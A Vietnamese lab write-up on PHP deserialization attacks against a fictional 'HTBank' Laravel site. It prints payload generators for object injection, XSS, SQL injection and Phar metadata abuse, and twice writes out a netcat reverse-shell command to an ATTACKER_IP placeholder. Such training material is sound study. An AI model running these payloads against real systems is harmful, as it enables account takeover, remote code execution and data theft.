




# Deserialization Attacks (PHP)

### Scenario (HTBank)

Hãy tưởng tượng rằng HTBank GmbH yêu cầu chúng ta thực hiện một cuộc đánh giá bảo mật hộp trắng đối với trang web mới được phát triển của họ.

Họ cung cấp cho chúng ta một URL, mã nguồn của trang web và không thể tạo tài khoản bằng địa chỉ email có đuôi `@htbank`.com, vì những địa chỉ email này được sử dụng bởi các quản trị viên.

### Exploring the Site



Chúng ta có thể đăng ký tài khoản mới, khi đăng ký với email `@htbank.com` thì kết quả là `The email format is invalid` sau đó đăng ký một account với email bình thường.



Ở trang `Settings` chúng ta có thể cập nhật username, password, email và ảnh profile cũng như là import, export setting. Trước hết thử update thành email đuôi `@htbank.com` nhưng thất bại.



Click vào `Export Settings` chúng ta thấy một đoạn string dài có vẻ như base64 encode


tiến hành decode và output nó là một serialized PHP object.

```
echo -n TzoyNDoiQXBwXEhlbHBlcnNcVXNl...SNIP... | base64 -d
```

```php
O:24:"App\Helpers\UserSettings":4:{
    s:30:"App\Helpers\UserSettingsName";s:7:"pentest";
    s:31:"App\Helpers\UserSettingsEmail";s:16:"[email protected]";
    s:34:"App\Helpers\UserSettingsPassword";s:60:"$2y$10$kPfp572LjEN1HDYrBOoWqezWZcee58HteiIStVvRu6ndWimUqBN7a";
    s:36:"App\Helpers\UserSettingsProfilePic";s:11:"default.jpg";
}
```

Vì đã có src code ta có thể tìm chính xác được file này ở đâu bằng grep

```bash
grep 'Exported user settings!' -nr .
./app/Http/Controllers/HTController.php:123: Session::flash('ie-message', 
'Exported user settings!');
```

Bên trong `app/Http/Controllers/HTController.php` nó sẽ xử lí importing và exporting:

```php
public function handleSettingsIE(Request $request)
{
    if (Auth::check()) {
        if (isset($request['export'])) {
            $user = Auth::user();

            $userSettings = new UserSettings(
                $user->name,
                $user->email,
                $user->password,
                $user->profile_pic
            );

            $exportedSettings = base64_encode(
                serialize($userSettings)
            );

            Session::flash('ie-message', 'Exported user settings!');
            Session::flash('ie-exported-settings', $exportedSettings);
        } elseif (
            isset($request['import']) &&
            !empty($request['settings'])
        ) {
            $userSettings = unserialize(
                base64_decode($request['settings'])
            );

            $user = Auth::user();
            $user->name = $userSettings->getName();
            $user->email = $userSettings->getEmail();
            $user->password = $userSettings->getPassword();
            $user->profile_pic = $userSettings->getProfilePic();
            $user->save();

            Session::flash(
                'ie-message',
                "Imported settings for '" . $userSettings->getName() . "'"
            );
        }

        return back();
    }

    return redirect("/login")->withSuccess(
        'You must be logged in to complete this action'
    );
}
```

Việc sử dụng `serialize()` và `unserialize()` xác nhận chuỗi Base64 chứa đối tượng PHP UserSettings. Máy chủ giải mã đối tượng rồi cập nhật thông tin người dùng đang đăng nhập theo dữ liệu bên trong. 

Do không kiểm tra dữ liệu trước khi `unserialize()`, chức năng này có thể tồn tại lỗ hổng bảo mật.

Lưu ý: Luôn kiểm tra tính năng nhập, xuất cài đặt hoặc tiến trình vì chúng có thể dễ bị khai thác nếu bảo vệ không đúng cách.

## Object Injection (PHP)

### Updating our Email Address

Ở phần trước chúng ta đã xác định `serialize` và `unserialize` trong `handleSettingsIE()`. Quan sát `app/Helpers/UserSettings.php`, ta thấy object này lưu 4 thông tin: Name, Email, Password  và ProfilePic

```php
<?php

namespace App\Helpers;

class UserSettings {
    private $Name;
    private $Email;
    private $Password;
    private $ProfilePic;

    public function getName() {
        return $this->Name;
    }

    public function getEmail() {
        return $this->Email;
    }

    public function getPassword() {
        return $this->Password;
    }

    public function getProfilePic() {
        return $this->ProfilePic;
    }

    public function setName($Name) {
        $this->Name = $Name;
    }

    public function setEmail($Email) {
        $this->Email = $Email;
    }

    public function setPassword($Password) {
        $this->Password = $Password;
    }

    public function setProfilePic($ProfilePic) {
        $this->ProfilePic = $ProfilePic;
    }

    public function __construct($Name, $Email, $Password, $ProfilePic) {
        $this->setName($Name);
        $this->setEmail($Email);
        $this->setPassword($Password);
        $this->setProfilePic($ProfilePic);
    }
    ...
}
```

Với kiến thức này, chúng ta có thể tạo ra các đối tượng `UserSettings` đã được serialized với các thông tin tùy ý.

Đầu tiên, chúng ta sẽ tạo một tệp có tên `UserSettings.php` và sao chép nội dung của `app/Helpers/UserSettings.php` vào tệp này. Tiếp theo, chúng ta sẽ tạo một tệp khác có tên `exploit.php` trong cùng thư mục với nội dung sau để tạo một đối tượng `UserSettings` đã serialized với địa chỉ email `attacker@htbank.com` và mật khẩu `pentest`

```php
<?php
include('UserSettings.php');

echo base64_encode(serialize(new \App\Helpers\UserSettings('pentest', 'attacker@htbank.com',  '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));
```

Để test lại cho chắc chắn ở local, tạo 1 file `target.php` và đặt nội dung của `handleSettingsIE()` vào

```php
<?php

include('UserSettings.php');

// else if (isset($request['import']) && !empty($request['settings'])) {
//    $userSettings = unserialize(base64_decode($request['settings']));
$userSettings = unserialize(base64_decode($argv[1]));

//    $user = Auth::user();
//    $user->name = $userSettings->getName();
//    $user->email = $userSettings->getEmail();
//    $user->password = $userSettings->getPassword();
//    $user->profile_pic = $userSettings->getProfilePic();
//    $user->save();
print("\n");
print('$user->name = ' . $userSettings->getName() . "\n");
print('$user->email = ' . $userSettings->getEmail() . "\n");
print('$user->password = ' . $userSettings->getPassword() . "\n");
print('$user->profile_pic = ' . $userSettings->getProfilePic() . "\n");
print("\n");

//    Session::flash('ie-message', 'Imported settings for \'' .
$userSettings->getName() . '\'');
print('ie-message => Imported settings for \'' . $userSettings->getName() . '\'');

// }
```

Sau đó chạy thử với base64 đã sinh ra ở trên bằng `exploit.php`

```php
$user->name = pentest
$user->email = attacker@htbank.com
$user->password = 
$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda
$user->profile_pic = default.jpg

ie-message => Imported settings for 'pentest'
```

Đến đấy thì việc test lại đã ngon

Sau đó import đoạn này vào và thành công đổi email

### Reflected XSS

ta có thể thấy khi import thành công thì username được hiển thị, xem lại đoạn code đó trong `./app/Http/Controllers/HTController.php`

```php
Session::flash('ie-message', "Imported settings for '" . $userSettings->getName() . "'");
```

Tìm đoạn lấy `ie-message` ra bằng grep

```php
grep -nr 'ie-message' .
...
./resources/views/settings.blade.php:53: <p class="text-success">{!! Session::get('ie-message') !!}</p>
...
```

Laravel sử dụng engine template Blade để render, các biến được bọc trong cặp dấu `{{ ... }}`, còn đặt một biến trong `{!! ... !!}` có nghĩa là biến đó sẽ không đi qua hàm `htmlspecialchars` trước khi hiển thị tức là nó ko được escape nên ta có thể tấn công XSS ở trường Name `<script>alert(1)</script>`

```php
<?php
include('UserSettings.php');

echo base64_encode(serialize(new \App\Helpers\UserSettings('<script>alert(1)</script>', 'attacker@htbank.com', '$2y$10$u5o6u2EbjOmob0jVtu87QO8ZwQsDd2zzoqjWSO.5zuPr3hqk9wfda', 'default.jpg')));
```

Sau đó import đoạn base64 kết quả đó như phần trên, ta cũng có thể chạy thử lại như file `target.php` đã tạo ở phần trên để chắc chắn payload tạo ra đúng

Kết quả là



## RCE: Magic Methods

### Magic Methods

Xem lại file `app/Helpers/UserSettings.php` ta có thể thấy các định nghĩa cho các hàm `__construct`, `__wakeup()` và `__sleep()` ở cuối file

```php
...
    public function __construct($Name, $Email, $Password, $ProfilePic) {
        $this->setName($Name);
        $this->setEmail($Email);
        $this->setPassword($Password);
        $this->setProfilePic($ProfilePic);
    }

    public function __wakeup() {
        shell_exec('echo "$(date +\'[%d.%m.%Y %H:%M:%S]\') Imported settings for user \'' . $this->getName() . '\'" >> /tmp/htbank.log');
    }

    public function __sleep() {
        return array("Name", "Email", "Password", "ProfilePic");
    }
}
```

trong php các hàm bắt đầu bằng `__` gọi là magic method, đây là các phương thức đặc biệt ghi đè các hành động mặc định của php khi gọi trên một đối tượng, tổng cộng có 17 magic method:

| Phương thức | Mô tả |
|---|---|
| `__construct()` | Định nghĩa constructor cho một lớp. Được gọi khi một đối tượng mới được tạo. Ví dụ: `new ClassName()` |
| `__toString()` | Định nghĩa cách một đối tượng được chuyển thành chuỗi. Ví dụ: `echo $obj` |
| `__call()` | Được gọi khi cố gắng gọi một phương thức không tồn tại hoặc không thể truy cập trong ngữ cảnh đối tượng. Ví dụ: `$obj->doesntExist()` |
| `__get()` | Được gọi khi cố gắng đọc một thuộc tính không tồn tại hoặc không thể truy cập. Ví dụ: `$obj->doesntExist` |
| `__set()` | Được gọi khi cố gắng gán giá trị cho một thuộc tính không tồn tại hoặc không thể truy cập. Ví dụ: `$obj->doesntExist = 1` |
| `__clone()` | Được gọi khi một đối tượng được sao chép bằng từ khóa `clone`. Ví dụ: `$copy = clone $object` |
| `__destruct()` | Được gọi khi một đối tượng bị hủy hoặc khi chương trình kết thúc và đối tượng được giải phóng. |
| `__isset()` | Được gọi khi sử dụng `isset()` hoặc `empty()` trên thuộc tính không tồn tại hoặc không thể truy cập. Ví dụ: `isset($obj->doesntExist)` |
| `__invoke()` | Được gọi khi một đối tượng được sử dụng như một hàm. Ví dụ: `$obj()` |
| `__sleep()` | Được gọi khi tuần tự hóa (serialize) một đối tượng. Nếu cả `__serialize()` và `__sleep()` được định nghĩa, `__serialize()` sẽ được ưu tiên. Ví dụ: `serialize($obj)` |
| `__wakeup()` | Được gọi khi giải tuần tự hóa (unserialize) một đối tượng. Nếu cả `__unserialize()` và `__wakeup()` được định nghĩa, `__unserialize()` sẽ được ưu tiên. Ví dụ: `unserialize($ser_obj)` |
| `__unset()` | Được gọi khi sử dụng `unset()` trên thuộc tính không tồn tại hoặc không thể truy cập. Ví dụ: `unset($obj->doesntExist)` |
| `__callStatic()` | Được gọi khi cố gắng gọi một phương thức không tồn tại hoặc không thể truy cập trong ngữ cảnh tĩnh (static). Ví dụ: `ClassName::doesntExist()` |
| `__set_state()` | Được sử dụng khi tái tạo một đối tượng từ mã PHP do `var_export()` tạo ra. Ví dụ: `var_export($obj, true)` |
| `__debugInfo()` | Được gọi khi sử dụng `var_dump()` trên một đối tượng để tùy chỉnh thông tin hiển thị. Ví dụ: `var_dump($obj)` |
| `__unserialize()` | Được gọi khi giải tuần tự hóa một đối tượng. Được ưu tiên hơn `__wakeup()` nếu cả hai được định nghĩa. Có từ PHP 7.4+. Ví dụ: `unserialize($ser_obj)` |
| `__serialize()` | Được gọi khi tuần tự hóa một đối tượng. Được ưu tiên hơn `__sleep()` nếu cả hai được định nghĩa. Có từ PHP 7.4+. Ví dụ: `serialize($obj)` |

Trong file `UserSettings.php` có

- `__construct`: Chạy khi tạo đối tượng `UserSettings` mới (để gán các giá trị ban đầu).

- `__sleep`: Chạy tự động trước khi đối tượng bị serialize

- `__wakeup`: Chạy tự động trước khi đối tượng được deserialize

Đặc biệt là hàm `__wakeup` dùng lệnh hàm `shell_exec` để ghi log mỗi khi cấu hình ng dùng được tải lên, ở đây `shell_exec` đang lấy trực tiếp Name của user để ghi log mà ko hề lọc gì do đó nếu đặt tên của mình bắt đầu bằng `";` ta có thể thoát lệnh `echo` và chạy bất kì lệnh nào khác mà ta muốn

### Reverse Shell

Do có thể thực hiện command injection ta có thể tạo payload:

```php
...
echo base64_encode(serialize(new \App\Helpers\UserSettings('"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash;#', 'attacker@htbank.com',
'$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjWS0.5zuPr3hqk9wfda',
'default.jpg')));
...
```

## Các loại tấn công khác

deserialization có thể dẫn tới command injection như phàn trước tuy nhiên deserialization ko chỉ giới hạn ở đó và cũng ko phải lúc nào cũng dẫn đến RCE tùy thuộc vào magic function mà lập trình viên định nghĩa, kẻ tấn công có thể khai thác các lỗi như sqli , LFI hay Dos

### SQLi qua Deserialization

```php
<?php

class UserModel {
    function __construct($id) {
        $this->id = $id;
    }

    function __get($get) {
        $con = mysqli_connect("localhost", "XXXXX", "XXXXX", "htbank");
        $result = mysqli_query($con, "SELECT " . $get . " FROM users WHERE id = " . $this->id);
        $row = mysqli_fetch_row($result);
        mysqli_close($con);
        return $row[0];
    }
}

class UserProperty {
    function __construct($id, $prop) {
        $this->id = $id;
        $this->prop = $prop;
        $u = new UserModel($id);
        $this->val = $u->$prop;
    }

    function __toString() {
        return $this->val;
    }

    function __wakeup() {
        $u = new UserModel($this->id);
        $prop = $this->prop;
        $this->val = $u->$prop;
    }
}

function POST_Check_User_Property($ser) {
    // ...
    $u = unserialize($ser);
    // ...
    return $u;
}

// EXPECTED USAGE:
// $password = new UserProperty(1, "password");
// echo "The password of user with id '1' is '$password'\n";
```

ta có thể thực hiện như sau

```php
$up = new UserProperty(1, "group_concat(table_name) from information_schema.tables where table_schema='htbank';-- ");

echo POST_Check_User_Property(serialize($up));
```

tạo UserProperty mới với 2 thuộc tính là `id` và `prop` sau đó sẽ được `serialize()` để biến thành dạng chuỗi và gửi lên server. Sau đó nó sẽ được `unserialize()` để khôi phục object.

theo cơ chế mặc định của php sau khi 1 đối tượng vừa được unserialize xong hàm `__wakeup()` của class đó sẽ tự động chạy trước tiên

Bên trong `UserProperty::__wakeup()`

- tạo 1 đối tượng UserModel
- tạo biến cục bộ prop gán bằng câu lệnh sqli
- lấy giá trị biến cục bộ prop làm thuộc tính cần truy cập của đối tượng u -> ko tìm thấy -> gọi hàm `__get()` nhận input là biến cục bộ prop chính là câu lệnh sqli -> do đó thực thi câu lệnh sqli thành công

### RCE: Phar Deserialization

Quay lại chức năng tải ảnh đại diện bên trong `app/Http/Controllers/HTController.php:handleSettings()` có đoạn code xử lý các tệp đc tải lên:

```php
...
if (!empty($request["profile_pic"])) {
    $file = $request->file('profile_pic');
    $fname = md5(random_bytes(20));
    $file->move('uploads',"$fname.jpg");
    $user->profile_pic = "uploads/$fname.jpg";
}
...
```

trang web cho biết chỉ cho phép JPG nhưng ở đây có vẻ như ko có cơ chế nào, tên file là một giá trị md5 ngẫu nhiên thêm đuôi .jpg

nếu ta sao chép liên kết hình ảnh của avt thì thu dc `http://SERVER_IP:8000/image?_=uploads/MD5.jpg` và truy cập nó trong trình duyệt thì sẽ đến `http://SERVER_IP:8000/uploads/<MD5>.jpg`

kiểm tra các route trong routes/web.php để xem endpoint `/image` được xử lý ở đâu:

```php
...
Route::get('/image', [HTController::class, 'getImage'])->name('getImage');
```

kiểm tra `app/Http/Controllers/HTController:getImage()` thấy `/image?_=` sẽ kiểm tra xem file có tồn tại hay ko sau đó sẽ đi đến nó hoặc avt mặc định

```php
...
public function getImage(Request $request) {
    if (file_exists($request->query('_')))
        return redirect($request->query('_'));
    else
        return redirect("/default.jpg");
}
...
```

PHAR là một phần mở rộng cho PHP, cung cấp một cách để đưa toàn bộ các ứng dụng PHP vào một archive tương tự như tệp JAR cho Java, truy cập các tệp bên trong một kho lưu trữ bằng cách sử dụng wrapper `phar://` như sau: `phar:///path/to/myphar.phar/file.php`

tạo exploit-phar.php cùng thư mục với UserSetting.php 

```php
<?php
include('UserSettings.php');

$phar = new Phar("exploit.phar");

$phar->startBuffering();
$phar->addFromString('0', '');
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata(new \App\Helpers\UserSettings('"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash;#', 'attacker@htbank.com',
'$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjWS0.5zuPr3hqk9wfda',
'default.jpg'));

$phar->stopBuffering();
```